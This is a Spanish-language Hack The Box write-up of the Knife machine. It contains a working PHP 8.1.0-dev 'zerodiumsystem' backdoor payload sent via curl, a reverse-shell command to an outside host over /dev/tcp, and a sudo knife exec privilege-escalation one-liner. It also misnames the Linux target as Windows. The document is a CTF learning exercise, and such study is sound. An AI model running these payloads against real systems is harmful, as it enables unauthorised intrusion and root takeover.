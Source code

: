 ```yaml
---
layout: single
title: Knife HTB - WriteUp
excerpt: WriteUp de la máquina Knife de HTB.
date: 2023-02-28
classes: wide
header:
  teaser: /assets/images/Knife/Knife.png
  teaser_home_page: true
  icon: /assets/images/Knife/Knife.png
categories:
  - infosec
tags:
  - ctf
  - Linux                                                                                                                                                                                 
  - Writeup
  - Web                                                                                                                                                                                  
  - CVE                                                                                                                                                                                    
  - Sudo-Abuse
---
```



En el día de hoy estaremos resolviendo la máquina Knife de HackTheBox. Es una máquina Windows y su dirección IP es 10.10.10.242.

### Índice

1. [Ennumeración Inicial](#Enumeración-Inicial)
2. [Explotación Web](#Explotación-Web)
3. [Privesc](#Privesc)

### Enumeración Inicial

Lo primero que haremos será una enumeración de los servicios expuestos que tiene la máquina. Para esa tarea usaremos nmap.

```bash
# Nmap 7.91 scan initiated Tue Feb 28 20:03:49 2023 as: nmap -sC -sV -Pn -oN Extraction -p22,80 10.10.10.242
Nmap scan report for 10.10.10.242
Host is up (0.053s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Feb 28 20:04:00 2023 -- 1 IP address (1 host up) scanned in 10.55 seconds
```

Podemos ver que hay dos puertos abiertos... Un shh y una web que utliza el protocolo http. Si accedemos a la web podemos ver que no tiene enlaces, no tiene aparentemente nada. Utilicé curl para ver las cabeceras de la página.

```bash
❯ curl -I 10.10.10.242
HTTP/1.1 200 OK
Date: Tue, 28 Feb 2023 19:09:12 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```

### Explotación Web

La versión del PHP me llamo la atención y la busqué en google. Tiene un backdoor que nos permite ejecutar comandos a nivel de sistema. Si utilizamos la cabecera:

> User-Agentt: zerodiumsystem('command');

Supuestamente podremos ejecutar comandos. Hagamos la prueba:

```bash
❯ curl -X GET "http://10.10.10.242/" -H "User-Agentt: zerodiumsystem('bash -c \"id\"');"                                                            
uid=1000(james) gid=1000(james) groups=1000(james)
```

Podemos ejecutar comandos a nivel de sistema, vamos a establecernos una revshell.

```bash
❯ curl -X GET "http://10.10.10.242/" -H "User-Agentt: zerodiumsystem('bash -c \"bash -i >& /dev/tcp/10.10.16.6/443 0>&1\"');"
```

### Privesc

Si miramos nuestro listener podemos ver que tenemos una revshell.

```bash
❯ nc -lvvp 443
listening on [any] 443 ...
10.10.10.242: inverse host lookup failed: Unknown host
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.242] 43344
bash: cannot set terminal process group (965): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$
```

Le hacemos el tratamiento de la tty https://ironhackers.es/tutoriales/como-conseguir-tty-totalmente-interactiva/

Si enumeramos nuestros privilegios podemos darnos cuenta que podemos ejecutar  knife como root.

```bash
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Si ejeuctamos knife -h nos da el panel de ayuda, en el podemos encontrar lo siguiente:

```bash
james@knife:/$ /usr/bin/knife -h
** EXEC COMMANDS **                         
knife exec [SCRIPT] (options)
```

Podemos aprovecharnos de eso para ejecutar comandos, como tenemos permisos para ejecutarlo como root, podemos convertirnos en dicho usuario de la siguiente forma:

```bash
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'
# id
uid=0(root) gid=0(root) groups=0(root)
# bash
root@knife:/# 
```


Espero que te haya gustado esta máquina easy!

